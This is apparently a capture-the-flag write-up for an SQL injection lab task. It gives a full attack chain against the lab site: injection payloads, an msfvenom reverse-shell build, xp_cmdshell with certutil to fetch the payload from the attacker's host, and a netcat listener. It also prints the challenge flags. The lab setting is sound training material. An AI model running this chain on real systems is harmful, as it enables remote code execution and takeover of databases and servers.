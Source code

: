 2. **Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?**
Ans:`ODBC Driver 17 for SQL Server`
-----

- now after age `'` add `OR 1=1 --`
- and the fiag for the next part is at the end of the list
```http
http://MACHINE_IP/giftresults.php?age=' OR 1=1 --
```

3. **Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?**
FLAG: `THM{a4ffc901c27fb89efe3c31642ece4447}`
----
now run this command using metasploit framework with this command
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```

run this command in your command prompt
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```

run this in another tab
```shell
python3 -m http.server 8000
```

search this up on your browser
```shell
http://10.10.73.184/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
```

you can see the get requests in the http server command line

now set up netcat listener in another tab
```bash
nc -lnvp 4444
```

search this up on your browser
```bash
http://10.10.73.184/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```

now a shell opens, go to \users\Administrator, read Note.txt follow the instructions
you get the flag on your home page once you restore the website

4. **What is the flag you receive on the homepage after restoring the website?**

**FLAG - `THM{4cbc043631e322450bc55b42c}`**

----
# 11. Jingle Bells, Shadow Spells
